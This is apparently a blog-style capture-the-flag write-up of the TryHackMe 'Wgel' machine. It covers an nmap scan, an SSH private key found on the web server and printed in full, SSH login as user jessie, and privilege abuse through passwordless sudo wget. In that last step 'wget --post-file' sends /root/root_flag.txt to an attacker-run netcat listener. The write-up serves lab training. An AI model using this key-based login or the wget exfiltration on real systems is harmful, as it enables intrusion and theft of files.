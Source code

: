```yaml
---
title: Wgel - TryHackMe
date: 2020/08/07
categories:
  - [pentesting, writeups]
---
```


Hey there! Today I am going to walk you through the Wgel machine on [TryHackMe](https://tryhackme.com/room/wgelctf)

The first thing I always do is to export the IP to a global variable. So from now on \$IP will refer to the IP of the target machine.

```bash
export IP={Machine IP}
```

## Enumeration

Let us start our enumeration as usual and do an nmap scan:

```bash
nmap -T4 -A $IP
```

This is what came back:

```plain
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-07 09:47 EDT
Nmap scan report for 10.10.54.255
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/7%OT=22%CT=1%CU=42515%PV=Y%DS=2%DC=T%G=Y%TM=5F2D5B8F
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=RD%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   52.28 ms 10.9.0.1
2   52.35 ms 10.10.54.255

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds
```

So just SSH on port 22 and Apache on port 80. Let us first do some enumeration on the web server.<br/>On first glance there is just the Apache default page. If we have a look at the source code we can see that there is a comment inside:

```html
<!-- Jessie don't forget to udate the webiste -->
```

Apparently someone called Jessie is a developer or user of the target machine.

But let us run dirbuster and see if there is more to find.

At **/sitemap/** there is a blog like website with the title “unapp” but I did not find anything interesting there nor any exploits. So let us move on.

Weirdly my scan did not find anything, but I poked around a bit more and just tried random directories and files. So I stumbled upon this: **/sitemap/.ssh/id_rsa**.

```plain
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

It is an SSH private key you can use to login to someones SSH.<br/>I went ahead and copied the key to a file called **id_rsa** and gave it the permissions SSH likes.

```bash
chmod 600 id_rsa
```

## Gaining Access

Now we can use that previously found key to login to SSH. The only thing we are missing is a user to map that key to. In this case the server would be even vulnerable to an exploit to enumerate all the users on a server, but because we found something for “Jessie” earlier, I assumed, that the key was Jessie’s.<br/>So let’s login as Jessie with the private key.

```bash
ssh -i id_rsa  jessie@$IP
```

### User Flag

The user flag was hidden inside of the “Documents” directory.

```bash
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos

jessie@CorpOne:~$ cd Desktop/
jessie@CorpOne:~/Desktop$ ls

jessie@CorpOne:~/Desktop$ cd ..
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt

jessie@CorpOne:~/Documents$ cat user_flag.txt
USER_FLAG
```

## Post Exploitation & Getting Root

Before uploading linpeas or anything else I fancied, I just had a look at our sudo permissions myself.

```plain
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Interesting, apparently we can run **wget** as root without a password. So as always I had a look at [GTFOBins](https://gtfobins.github.io/) and found [this](https://gtfobins.github.io/gtfobins/wget/) for wget.

### Root Flag

It seems like we can download files to another machine. We can use that knowledge to directly exfiltrate the root flag.<br/>(Trust me it took me ages to figure that one out. I first tried to download /etc/shadow and simliar.)

So on my machine I listened for incoming connections on port 80 and stored the output in a file called “root_flag.txt”:

```plain
root@hades      :~/ctf/thm/wgel# nc -lnvp 80 > root_flag.txt
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.54.255.
Ncat: Connection from 10.10.54.255:36442.
```

On the target machine I used wget with the “–post-file” flag to send the root flag to my machine.

```bash
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt $YOUR_IP
--2020-08-07 18:11:21--  http://$YOUR_IP/
Connecting to $YOUR_IP:80... connected.
HTTP request sent, awaiting response...
```

You should now be able to cat out the root flag in the “root_flag.txt” file.

```bash
root@hades:~/ctf/thm/wgel# cat root_flag.txt
ROOT_FLAG
```

## The End

And there you have it! I hope you had fun, I know I did 🦄
